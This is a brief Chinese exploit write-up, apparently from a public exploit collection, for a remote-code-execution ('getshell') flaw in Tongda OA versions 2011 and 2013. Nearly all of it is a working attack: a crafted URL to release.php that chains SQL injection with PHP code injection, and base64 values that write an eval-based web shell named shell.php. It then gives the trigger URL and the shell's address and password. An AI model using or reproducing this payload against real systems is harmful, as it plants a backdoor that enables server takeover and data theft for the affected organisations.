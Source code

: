 ## 通达oa 2011-2013 通杀GETSHELL

### 漏洞影响

2011、2013版本

### 复现过程

第一步：

```bash
http://url/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))}
```

第二步:

`http://url/general/email/index.php`

SHELL:

`http://url/general/email/shell.php 密码C`